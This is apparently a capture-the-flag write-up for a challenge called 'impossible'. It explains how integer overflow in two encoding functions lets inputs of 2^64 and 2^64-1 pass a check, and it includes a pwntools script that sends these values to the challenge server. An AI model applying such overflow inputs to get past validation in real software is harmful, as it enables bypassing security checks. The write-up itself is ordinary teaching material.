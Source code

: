 
### impossible

The conditions look impossible but we can find that the functions zero_encoding and one_encoding are vulnerable to overflow.
To pass the condition, we can set `x` and `y` as `x = 2^64` and `y = 2^64-1`, for example, and then, we got the flag.


```#!/usr/bin/env python3

from pwn import *

host = args.HOST or 'challs.actf.co'
port = int(args.PORT or 32200)

payload_x = f'{pow(2, 64)}\n'.encode()
payload_y = f'{pow(2, 64)-1}\n'.encode()

conn = remote(host, port)

response = conn.recvuntil(b'x: ')
print(response.decode(), end='')
print(payload_x.decode())
conn.sendline(payload_x)

response = conn.recvuntil(b'y: ')
print(response.decode(), end='')
print(payload_y.decode())
conn.sendline(payload_y)
 
response = conn.recvline()
print(response.decode())
```
